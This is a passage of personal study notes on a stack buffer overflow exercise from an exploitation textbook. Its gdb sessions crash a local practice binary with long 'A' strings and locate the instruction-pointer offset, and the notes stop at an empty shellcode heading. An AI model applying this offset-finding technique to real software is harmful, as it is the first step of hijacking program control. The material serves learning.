 That's it. Now we got a Segmentation fault. So we know that it is less than 300 bytes. 

```
(gdb) run $(python -c 'print "A"*266')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
 $(python -c 'print "A"*266')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7004141 in ?? ()
(gdb) 

```
This is interesting. Here we see our A's starting to pop up. We can verify that we have found it by doing:

```
(gdb) run $(python -c 'print "A"*266 + "BBB"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/books/Hacking The Art Of Exploitation 2nd Edition V413HAV/buffOverflow $(python -c 'print "A"*266 + "BBB"')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBB

Program received signal SIGSEGV, Segmentation fault.
0x0000004242424141 in ?? ()```
So we can clearly see that we have managed to insert the three B's. The address that pops up last with out B's and A's is the address to the rip - instruction pointer. So that is what is going to be run next. We can verify that this is the instruction pointer by running

```

```
(gdb) x $rip
0x7ffff7004141:	Cannot access memory at address 0x7ffff7004141
```

263 - 23 = 240



## Craftig the shellcode
So now that we have found the size of the buffer 266 bytes. We want to inject shellcode after that. 




# Try two

General-purpose registers
